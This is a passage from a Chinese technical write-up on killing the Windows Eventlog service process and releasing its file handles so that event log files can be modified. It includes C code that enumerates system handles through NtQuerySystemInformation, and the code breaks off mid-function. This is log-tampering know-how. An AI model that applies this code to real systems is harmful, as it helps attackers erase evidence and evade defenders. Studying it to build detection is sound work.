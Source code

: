 ```
		printf("[!]Error\n");
		return -1;
	}
	printf("Done\n");

	return 0;
}
```

**注：**

结束Eventlog服务对应的进程后，隔一段时间后Eventlog服务会自动重启

## 0x05 释放文件句柄
---

结束Eventlog服务对应的进程后，还需要释放日志文件的句柄，才能够获得文件的修改权限

**实现思路：**

1.利用NtQuerySystemInformation查询SystemHandleInformation获得所有进程的句柄信息
2.挑选出日志进程中的所有句柄
3.释放句柄

关键代码如下：

```
BOOL CloseFileHandle(LPWSTR buf1, DWORD pid)
{
	NTSTATUS status;
	PSYSTEM_HANDLE_INFORMATION handleInfo;
	ULONG handleInfoSize = 0x10000;
	HANDLE processHandle = NULL;
	ULONG i;
	DWORD ErrorPID = 0;
	SYSTEM_HANDLE handle = { 0 };

	_NtQuerySystemInformation NtQuerySystemInformation = (_NtQuerySystemInformation)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtQuerySystemInformation");
	if (!NtQuerySystemInformation)
	{
		printf("[!]Could not find NtQuerySystemInformation entry point in NTDLL.DLL");
		return 0;
	}
	_NtDuplicateObject NtDuplicateObject = (_NtDuplicateObject)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtDuplicateObject");
	if (!NtDuplicateObject)
	{
		printf("[!]Could not find NtDuplicateObject entry point in NTDLL.DLL");
		return 0;
	}
	_NtQueryObject NtQueryObject = (_NtQueryObject)GetProcAddress(GetModuleHandleA("NtDll.dll"), "NtQueryObject");
	if (!NtQueryObject)
	{
		printf("[!]Could not find NtQueryObject entry point in NTDLL.DLL");
		return 0;
	}

	handleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(handleInfoSize);
	while ((status = NtQuerySystemInformation(SystemHandleInformation, handleInfo, handleInfoSize, NULL)) == STATUS_INFO_LENGTH_MISMATCH)
		handleInfo = (PSYSTEM_HANDLE_INFORMATION)realloc(handleInfo, handleInfoSize *= 2);
	if (!NT_SUCCESS(status))
	{
```